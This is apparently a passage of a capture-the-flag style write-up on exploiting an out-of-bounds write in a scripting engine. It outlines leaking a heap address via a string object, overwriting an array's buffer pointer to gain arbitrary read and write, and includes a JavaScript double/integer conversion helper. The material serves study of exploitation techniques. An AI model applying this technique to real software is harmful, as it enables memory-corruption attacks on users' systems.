 Wow these two objects are perfect for exploitation. So what do we need to do?

## Exploitation

To be brief, the exploitation steps are:
```
// memory layout
----------------------

    String Obj S (StringCodePointSequence obj)

----------------------

    Array Obj A

----------------------

    Array Obj B

----------------------
```

1. leak heap address through `S`
2. overwrite the `buffer_ptr` of `A` through `B`
3. arbitary read and write
4. be a god

### Leak heap address

First we need to leak. This is easy, as long as you have the right obj. We need to use `StringCodePointSequence` object because `StringByteSequence` object couldn't print byte with the higest bit set. So all we need to to is trigger the bug in `A`, like `A[0-0x30]=obj` and make sure the pointer of `obj` is written to the `contents` part of `S`. Then we can use `string.codePointAt_(index)` to leak the pointer. 

### Modify the buffer ptr of A
As we have leaked the `heap addr`, we can write an arbitrary heap address to the `buffer ptr` of `A` by triggering the oob write in `B`. If you don't know how to translate a long int to a double directly, you can use a helper js script like this:
```javascript
var f64 = new Float64Array(1);
var u32 = new Uint32Array(f64.buffer);

function d2u(v) {
    f64[0] = v;
    return u32;
}

function u2d(lo, hi) {
    u32[0] = lo;
    u32[1] = hi;
    return f64[0];
}

function hex(lo, hi) {
    if( lo == 0 ) {
        return ("0x" + hi.toString(16) + "-00000000");
    }
    if( hi == 0 ) {
        return ("0x" + lo.toString(16));
    }
    return ("0x" + hi.toString(16) + "-" + lo.toString(16));
}
```
